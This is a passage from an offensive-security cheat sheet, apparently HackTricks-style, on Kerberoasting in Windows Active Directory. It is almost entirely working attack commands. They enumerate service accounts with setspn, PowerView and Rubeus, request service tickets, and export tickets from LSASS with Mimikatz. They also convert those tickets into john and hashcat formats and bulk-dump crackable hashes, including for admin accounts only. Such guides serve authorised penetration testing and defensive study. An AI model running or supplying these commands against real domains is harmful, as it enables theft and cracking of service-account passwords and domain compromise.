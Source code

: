 Multi-feature tools including kerberoast checks:

```bash
# ADenum: https://github.com/SecuProject/ADenum
adenum -d <DOMAIN> -ip <DC_IP> -u <USER> -p <PASS> -c
```

#### Windows

- Enumerate kerberoastable users

```powershell
# Built-in
setspn.exe -Q */*   # Focus on entries where the backing object is a user, not a computer ($)

# PowerView
Get-NetUser -SPN | Select-Object serviceprincipalname

# Rubeus stats (AES/RC4 coverage, pwd-last-set years, etc.)
.\Rubeus.exe kerberoast /stats
```

- Technique 1: Ask for TGS and dump from memory

```powershell
# Acquire a single service ticket in memory for a known SPN
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"  # e.g. MSSQLSvc/mgmt.domain.local

# Get all cached Kerberos tickets
klist

# Export tickets from LSASS (requires admin)
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Convert to cracking formats
python2.7 kirbi2john.py .\some_service.kirbi > tgs.john
# Optional: convert john -> hashcat etype23 if needed
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$*\1*$\2/' tgs.john > tgs.hashcat
```

- Technique 2: Automatic tools

```powershell
# PowerView — single SPN to hashcat format
Request-SPNTicket -SPN "<SPN>" -Format Hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
# PowerView — all user SPNs -> CSV
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation

# Rubeus — default kerberoast (be careful, can be noisy)
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
# Rubeus — target a single account
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast
# Rubeus — target admins only
.\Rubeus.exe kerberoast /ldapfilter:'(admincount=1)' /nowrap
```
